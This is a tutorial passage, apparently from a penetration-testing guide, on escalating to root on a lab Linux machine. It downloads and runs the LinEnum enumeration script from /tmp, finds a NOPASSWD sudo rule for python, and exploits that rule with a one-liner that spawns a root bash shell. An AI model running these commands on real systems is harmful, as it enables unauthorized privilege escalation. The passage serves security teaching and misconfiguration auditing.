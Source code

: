 The user “steven” is not a part of the “sudo” group and doesn’t have any administrative privileges, however, he may have a few specific permissions assigned to his account that need to be enumerated manually.

In order to get a complete scope of the permissions assigned to a user account, we can leverage the following command:

    sudo -l

Alternatively, we can also automate the process by leveraging an automated enumeration script called LinEnum.

More information about LinEnum can be found here: https://github.com/rebootuser/LinEnum.git

1. In order to utilize LinEnum, we will need to transfer it onto our target system, this can be done by downloading the script to your Kali VM, setting up a local web server, and downloading it to the target. Alternatively, you can also download it directly to the target server by running the following command:

        wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh

    Note: It is always recommended to save your scripts and tools into a folder that is not frequently accessed on the target system, the preferred choice being the /tmp directory.

1. After transferring the LinEnum script onto the target system, we will need to provide it with executable permissions, this can be done by running the following command:

        chmod +x /tmp/LinEnum.sh

1. We can now execute the script by running the following command:

        /tmp/LinEnum.sh

    The script will begin performing checks and will output the results in real-time, after which, we can analyze the results in order to identify vulnerabilities and misconfigurations that we can utilize to elevate our privileges.

1. As shown in the following screenshot, we are able to identify that the NOPASSWD SUDO permission has been assigned to the /usr/bin/python binary for the user “steven”.

    ![LinEnum output](linenum-output.png "LinEnum output")

    The NOPASSWD SUDO permission allows a user to execute a binary or run a command with “root” privileges without providing the “root” password.

    This permission is frequently implemented by system administrators to provide unprivileged users with the ability to run specific commands with “root” privileges as opposed to providing user accounts with administrative privileges.

1. In this case, we can leverage this misconfiguration to obtain root privileges by spawning a privileged bash session through the Python IDLE/Interpreter. This can be done by running the following command:

        sudo python -c 'import os; os.system("/bin/bash")'

    As shown in the following screenshot, the preceding command will spawn a new bash session with “root” privileges.

    ![Python-spawned bash shell](python-spawned-bash-shell.png "Python-spawned bash shell")
